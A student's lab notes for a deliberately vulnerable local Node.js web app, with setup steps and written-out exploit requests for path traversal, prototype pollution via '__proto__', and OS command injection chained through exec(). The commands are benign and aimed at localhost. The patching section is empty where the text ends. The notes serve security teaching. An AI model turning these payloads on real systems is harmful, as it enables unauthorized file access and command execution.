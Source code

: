 # Web Security Lab - Notes

# Setup

1. Install Node.js.
2. `cd` into the `src` folder, and run `npm install`.
3. Run `node app.js`.
4. Go to `http://localhost:80` in your browser.

Alternatively, you can use Docker:

    docker-compose up -d
    open http://127.0.0.1:8083/

# Experiments

These challenges have three vulnerabilities: OS command injection, prototype pollution and path traversal. Your task is to find out what you can do with these vulnerabilities.


# Tasks 1-4:
To make the following requests, I build HTTP Requests using Powershell's Invoke-WebRequest and its associated 

1. Path Traversal Exploit:

   ```PowerShell
   $postParams = @{id="../../README.md"}
   Invoke-WebRequest -Uri http://localhost:80/img -Method GET -Body $postParams
   ```
   This example specifically hits this README, but you can use this to access further files on the user's system.

2. Prototype Pollution Exploit:
 ```
 POST: http://localhost/edit_note
 Body, JSON Format:
 {
		"id": "__proto__",
		"author": "{}",
		"raw": "{}"
}
 ```

3. OS Command Injection
```
POST: http://localhost/edit_note
Body, JSON Format:
{
		"id": "__proto__",
		"author": "ps aux | grep node > example.txt",
		"raw": "cat example.txt"
}
GET: http://localhost/status
```
What the above does pollutes the base object with these extra commands. When running status, the extra commands are put in the list and executed by exec(), which enact these benign commands and makes a file.
You can easily delete files you are not supposed to access.

4. Patching the Prototype Pollution:
